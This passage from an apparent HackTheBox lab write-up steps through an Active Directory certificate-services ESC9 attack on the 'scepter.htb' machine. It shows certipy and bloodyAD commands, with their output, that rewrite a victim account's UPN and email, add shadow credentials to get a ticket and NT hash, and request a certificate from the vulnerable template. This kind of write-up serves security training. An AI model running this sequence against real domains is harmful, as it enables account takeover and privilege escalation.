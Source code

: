 The [genericAll Rights on StaffAccessCertificate](#staff-access-certificate-ou) from blodhound analysis phase, we can set `d.baker` mail or any other attribute with `a.carter` .

There are 2 article has explain the steps of ESC9 Attack.
[ADCSESC9a](https://bloodhound.specterops.io/resources/edges/adcs-esc9a)
[ESC9: No Security Extension on Certificate Template](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc9-no-security-extension-on-certificate-template)

So steps are below.
##### 1\. update victims account upn

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# certipy account -dc-ip 10.10.11.65 -u 'a.carter@scepter.htb' -p 'Password123.!' -user 'd.baker' -upn 'h.brown' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'd.baker':
    userPrincipalName                   : h.brown 
[*] Successfully updated 'd.baker
```

##### 1.2 update victim account's email attribute

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# bloodyAD -d scepter.htb --dc-ip 10.10.11.65 -u a.carter -p 'Password123.!' set object d.baker 'mail' -v 'h.brown@scepter.htb'                                                                    
[+] d.baker's mail has been updated
```

##### 2\. Obtain newly created ccache ticket

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# bloodyAD -d scepter.htb --dc-ip 10.10.11.65 -u a.carter -p 'Password123.!' add shadowCredentials d.baker
[+] KeyCredential generated with following sha256 of RSA key: 381b4f3ffb79ed80da8e2c76361e74923fc9b6c75640c215e0059fcc4e130f9e
[+] TGT stored in ccache file d.baker_e1.ccache

NT: 18b5fb0d99e7a475316213c15b6f22ce

```

##### 3\. Request Certificate via vulnerable template

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# KRB5CCNAME=d.baker_e1.ccache certipy req -k -dc-ip 10.10.11.65 -target dc01.scepter.htb -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'                                                 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 3                              
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'd.baker.pfx'
[*] Wrote certificate and private key to 'd.baker.pfx'

```
